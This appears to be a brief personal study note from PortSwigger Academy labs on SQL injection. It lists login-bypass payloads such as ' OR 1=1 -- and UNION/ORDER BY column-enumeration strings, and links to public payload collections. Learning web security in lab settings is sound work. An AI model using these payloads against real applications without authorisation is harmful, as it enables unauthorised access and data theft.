 # burpSuite
aka Notes from PortSwigger Academy

## SQLi

- ```--``` comments out everything after

Payloads that just worked somewhere:
```
'--
admin'--
administrator'--
' OR 1=1 --
'+OR+1=1--
OR 1=1 --
OR+1=1 --
```
So how many collumns do we have? 
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
'+ORDER+BY+3--

' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
' UNION SELECT NULL, NULL, NULL--
'+UNION+SELECT+NULL,+NULL--
'+UNION+SELECT+NULL,NULL--

```

- [payloads](https://github.com/payloadbox/sql-injection-payload-list#generic-sql-injection-payloads)
- [payloads2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
